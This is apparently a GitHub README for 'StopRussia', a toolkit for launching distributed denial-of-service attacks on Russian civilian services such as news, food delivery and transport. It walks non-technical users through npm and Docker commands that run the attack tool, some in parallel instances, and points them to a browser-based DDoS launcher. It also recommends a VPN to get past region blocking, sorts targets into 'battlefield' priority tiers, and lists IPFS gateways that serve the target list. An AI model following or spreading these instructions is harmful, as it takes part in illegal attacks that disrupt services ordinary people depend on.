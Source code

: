 # StopRussia

### [Support the Ukraine 🇺🇦](https://savelife.in.ua/)

**Russia MUST BE STOPPED!**
This repository contains a set of tools to attack russian services such as news, food delivery, transport and more for both technical and non-technical kind of persons

List is updated once a hour according to: `IT Army of Ukraine` and `ddos котики` Ukrainian communities 

## How to get started?

First of all, do not do this at full power from Ukrainian providers, this can harm the connectivity of other people with the world by taking down providers if a lot of people will do this simultaneously.

Also you need to use a VPN if you running this on your local machine, because many of the services uses region blocking to not accept requests from Ukraine

[ClearVPN](https://my.clearvpn.com/promo/redeem?code=SAVEUKRAINE) is a good choice, use can use promo-code `SAVEUKRAINE` to get free access for a year

### Web browser

You can use web tool to start DDoS on russian services: https://stoprussia.0x77.dev

### CLI

[Install Node.js >=16](https://nodejs.org/en/)

```console
npm i -g stoprussia autocannon
stoprussia
```

### Docker

[Install Docker](https://docs.docker.com/get-docker/)

Single instance:

```console
docker run -it ghcr.io/0x77dev/stoprussia:main
```

Running multiple instances:

```console
docker run -t ghcr.io/0x77dev/stoprussia:main -b 1 &
docker run -t ghcr.io/0x77dev/stoprussia:main -b 2 &
docker run -t ghcr.io/0x77dev/stoprussia:main -b 3 &
docker run -t ghcr.io/0x77dev/stoprussia:main -b 4
```


### More coming soon

More performant desktop, docker and kubernetes versions coming soon...

## Choosing battlefield

The list of targets are split into 4 chunks each chunk called battlefield

Battlefield 1: passive attack and low priority services

Battlefield 2: passive attack and medium priority services

Battlefield 3: active attack and medium priority services

Battlefield 4: active attack and high priority services


Battlefield 3 and 4 is the main focus to DDoS

## How can I get the list of targets?

Targets list are distributed over IPFS

You get it by resolving IPNS name
```
ipns://srl.0x77.dev
```

by requesting Cloudflare Gateway:

```
https://srl.0x77.dev
``` 

or by requesting Cloudflare Gateway directly:

```
https://cloudflare-ipfs.com/ipns/srl.0x77.dev
```

or by requesting public IPFS gateway:

```
https://ipfs.io/ipns/srl.0x77.dev
```
